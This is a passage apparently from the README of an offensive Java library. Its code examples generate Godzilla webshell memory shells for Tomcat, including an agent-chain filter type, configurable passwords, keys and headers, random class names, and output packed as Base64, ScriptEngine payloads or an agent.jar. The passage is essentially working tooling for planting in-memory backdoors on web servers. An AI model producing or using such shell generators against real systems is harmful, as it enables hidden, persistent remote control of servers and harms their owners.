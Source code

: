 ```java
//                .injectorClassName("com.example.memshell.GodzillaInjector") // Custom injector class name, random if empty
        .build();

GodzillaConfig godzillaConfig = GodzillaConfig.builder()
//                .pass("pass")
//                .key("key")
//                .headerName("User-Agent")
//                .headerValue("test")
        .build();

GenerateResult result = MemShellGenerator.generate(shellConfig, injectorConfig, godzillaConfig);

System.out.println("Injector Class Name: "+result.getInjectorClassName());
System.out.println("MemShell Class Name: "+result.getShellClassName());

System.out.println(result.getShellConfig());
System.out.println(result.getShellToolConfig());

System.out.println("Base64 Packed: "+Packers.Base64.getInstance().pack(result));
System.out.println("ScriptEngine Packed: "+Packers.ScriptEngine.getInstance().pack(result));
```
3. Example2: Generate a Tomcat Godzilla AgentFilterChain memory shell (Agent type):
```java
ShellConfig shellConfig = ShellConfig.builder()
        .server(Server.Tomcat)
        .shellTool(ShellTool.Godzilla)
        .shellType(ShellType.AGENT_FILTER_CHAIN)
        .shrink(true) // Shrink bytecode size
        .debug(false) // Disable debug mode
        .build();

InjectorConfig injectorConfig = InjectorConfig.builder()
//                .urlPattern("/*")  // Custom urlPattern, defaults to /*
//                .shellClassName("com.example.memshell.GodzillaShell") // Custom shell class name, random if empty
//                .injectorClassName("com.example.memshell.GodzillaInjector") // Custom injector class name, random if empty
        .build();

GodzillaConfig godzillaConfig = GodzillaConfig.builder()
//                .pass("pass")
//                .key("key")
//                .headerName("User-Agent")
//                .headerValue("test")
        .build();

GenerateResult result = MemShellGenerator.generate(shellConfig, injectorConfig, godzillaConfig);

System.out.println("Injector Class Name: " + result.getInjectorClassName());
System.out.println("MemShell Class Name: " + result.getShellClassName());

System.out.println(result.getShellConfig());
System.out.println(result.getShellToolConfig());

byte[] agentJarBytes = ((JarPacker) Packers.AgentJar.getInstance()).packBytes(result);
Files.write(Paths.get("agent.jar"), agentJarBytes);
```
4. For a unified generation interface example, refer to [GeneratorController.java](boot/src/main/java/com/reajason/javaweb/boot/controller/GeneratorController.java)
